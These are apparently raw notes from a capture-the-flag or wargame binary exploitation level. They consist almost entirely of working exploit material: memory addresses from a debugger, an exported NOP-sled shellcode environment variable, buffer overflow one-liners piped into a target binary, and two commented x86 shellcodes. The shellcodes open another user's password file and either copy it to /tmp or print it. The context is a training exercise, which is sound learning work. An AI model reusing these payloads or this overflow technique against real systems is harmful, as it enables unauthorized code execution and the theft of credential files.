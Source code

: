 saved eip 0xf7e45513

info variable environ
0xf7fd0e04

SHELLCODE variable address ; 0xffffd83d ; 0xffffd847

0xffffd7f8
0xffffd7ee

0x7fffffffe81a

export SHELLCODE=$(python -c 'print "\x90"*1000 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x2f\x68\x6f\x6d\x89\xe3\xb0\x05\x31\xc9\xcd\x80\x89\xc3\x31\xc9\x89\xe1\x31\xd2\xb2\x30\xb0\x03\xcd\x80\x31\xc0\x31\xdb\x68\x61\x73\x73\x00\x68\x6d\x70\x2f\x70\x68\x2f\x2f\x74\x6d\x89\xe3\xb0\x05\x66\xb9\x41\x02\xcd\x80\x89\xc3\x89\xe1\xb2\x30\xb0\x04\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80"')




0xffffd43c
gcc -m32 -o get_env_addr get_env_addr.c

(python -c 'print "\x90"*256 + "\x4b\xd8\xff\xff"') | ./level04

0xffffd84b
0xffffd86d
r < <(python -c 'print "A"*156 + "\x6d\xd8\xff\xff"')

gcc -m32 -o get_env_addr get_env_addr.c

shellcode_to_file = (
    # NOP sled
    "\x90" * 1000 +
    # Actual shellcode
    # open("/home/users/level05/.pass", O_RDONLY)
    "\x31\xc0"                  # xor eax, eax
    "\x31\xdb"                  # xor ebx, ebx
    "\x31\xc9"                  # xor ecx, ecx
    "\x31\xd2"                  # xor edx, edx
    "\x68\x2e\x70\x61\x73"      # push '.pas'
    "\x68\x6c\x30\x35\x2f"      # push 'l05/'
    "\x68\x72\x73\x2f\x6c"      # push 'rs/l'
    "\x68\x2f\x75\x73\x65"      # push '/use'
    "\x68\x2f\x68\x6f\x6d"      # push '/hom'
    "\x89\xe3"                  # mov ebx, esp
    "\xb0\x05"                  # mov al, 5 (sys_open)
    "\x31\xc9"                  # xor ecx, ecx
    "\xcd\x80"                  # int 0x80
    
    # read(fd, buf, count)
    "\x89\xc3"                  # mov ebx, eax
    "\x31\xc9"                  # xor ecx, ecx
    "\x89\xe1"                  # mov ecx, esp
    "\x31\xd2"                  # xor edx, edx
    "\xb2\x30"                  # mov dl, 48
    "\xb0\x03"                  # mov al, 3 (sys_read)
    "\xcd\x80"                  # int 0x80
    
    # open("/tmp/pass", O_WRONLY|O_CREAT, 0644)
    "\x31\xc0"                  # xor eax, eax
    "\x31\xdb"                  # xor ebx, ebx
    "\x68\x61\x73\x73\x00"      # push 'ass\0'
    "\x68\x6d\x70\x2f\x70"      # push 'mp/p'
    "\x68\x2f\x2f\x74\x6d"      # push '//tm'
    "\x89\xe3"                  # mov ebx, esp
    "\xb0\x05"                  # mov al, 5 (sys_open)
    "\x66\xb9\x41\x02"          # mov cx, 0x241 (O_WRONLY|O_CREAT)
    "\xcd\x80"                  # int 0x80
    
    # write(fd, buf, count)
    "\x89\xc3"                  # mov ebx, eax
    "\x89\xe1"                  # mov ecx, esp
    "\xb2\x30"                  # mov dl, 48
    "\xb0\x04"                  # mov al, 4 (sys_write)
    "\xcd\x80"                  # int 0x80
    
    # exit(0)
    "\x31\xc0"                  # xor eax, eax
    "\xb0\x01"                  # mov al, 1 (sys_exit)
    "\x31\xdb"                  # xor ebx, ebx
    "\xcd\x80"                  # int 0x80
)


shellcode_to_stdout = (
    # NOP sled
    "\x90" * 1000 +
    # Actual shellcode
    # open("/home/users/level05/.pass", O_RDONLY)
    "\x31\xc0"                  # xor eax, eax
    "\x31\xdb"                  # xor ebx, ebx
    "\x31\xc9"                  # xor ecx, ecx
    "\x31\xd2"                  # xor edx, edx
    "\x68\x2e\x70\x61\x73"      # push '.pas'
    "\x68\x6c\x30\x35\x2f"      # push 'l05/'
    "\x68\x72\x73\x2f\x6c"      # push 'rs/l'
    "\x68\x2f\x75\x73\x65"      # push '/use'
    "\x68\x2f\x68\x6f\x6d"      # push '/hom'
    "\x89\xe3"                  # mov ebx, esp
    "\xb0\x05"                  # mov al, 5 (sys_open)
    "\x31\xc9"                  # xor ecx, ecx
    "\xcd\x80"                  # int 0x80
    
    # read(fd, buf, count)
    "\x89\xc3"                  # mov ebx, eax
    "\x31\xc9"                  # xor ecx, ecx
    "\x89\xe1"                  # mov ecx, esp
    "\x31\xd2"                  # xor edx, edx
    "\xb2\x30"                  # mov dl, 48
    "\xb0\x03"                  # mov al, 3 (sys_read)
    "\xcd\x80"                  # int 0x80
    
    # write to stdout (fd 1)
    "\x31\xc0"                  # xor eax, eax
    "\xb0\x04"                  # mov al, 4 (sys_write)
    "\x31\xdb"                  # xor ebx, ebx
    "\xb3\x01"                  # mov bl, 1 (stdout)
    "\x89\xe1"                  # mov ecx, esp
    "\xb2\x30"                  # mov dl, 48
    "\xcd\x80"                  # int 0x80
    
    # exit(0)
    "\x31\xc0"                  # xor eax, eax
    "\xb0\x01"                  # mov al, 1 (sys_exit)
    "\x31\xdb"                  # xor ebx, ebx
    "\xcd\x80"                  # int 0x80
)

0xffffd84b

q
